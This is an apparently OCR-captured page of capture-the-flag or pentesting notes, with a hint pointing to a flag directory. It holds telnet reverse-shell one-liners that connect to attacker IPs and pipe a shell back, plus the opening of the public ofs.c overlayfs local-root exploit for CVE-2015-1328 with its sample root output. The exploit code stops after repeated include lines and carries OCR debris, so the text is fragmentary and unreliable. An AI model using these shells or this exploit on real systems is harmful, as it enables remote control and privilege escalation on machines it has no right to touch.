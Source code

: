 568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/






sh -c '(sleep 4062|telnet 192.168.230.132 4444|while : ; do sh && break; done 2>&1|telnet 192.168.230.132 4444 >/dev/null 2>&1 &)'
sh -c '(sleep 4062|telnet 192.168.56.1 3333 | /bin/bash | telnet 192.168.56.1 4444 &)'

telnet <attacker_ip> <port1> | /bin/bash | telnet <attacker_ip> <port2>
```



## ofs.c

```c
/*
# Exploit Title: ofs.c - overlayfs local root in ubuntu
# Date: 2015-06-15
# Exploit Author: rebel
# Version: Ubuntu 12.04, 14.04, 14.10, 15.04 (Kernels before 2015-06-15)
# Tested on: Ubuntu 12.04, 14.04, 14.10, 15.04
# CVE : CVE-2015-1328     (http://people.canonical.com/~ubuntu-security/cve/2015/CVE-2015-1328.html)

*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*
CVE-2015-1328 / ofs.c
overlayfs incorrect permission handling + FS_USERNS_MOUNT

user@ubuntu-server-1504:~$ uname -a
Linux ubuntu-server-1504 3.19.0-18-generic #18-Ubuntu SMP Tue May 19 18:31:35 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
user@ubuntu-server-1504:~$ gcc ofs.c -o ofs
user@ubuntu-server-1504:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),30(dip),46(plugdev)
user@ubuntu-server-1504:~$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),30(dip),46(plugdev),1000(user)

greets to beist & kaliman
2015-05-24
%rebel%
*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
```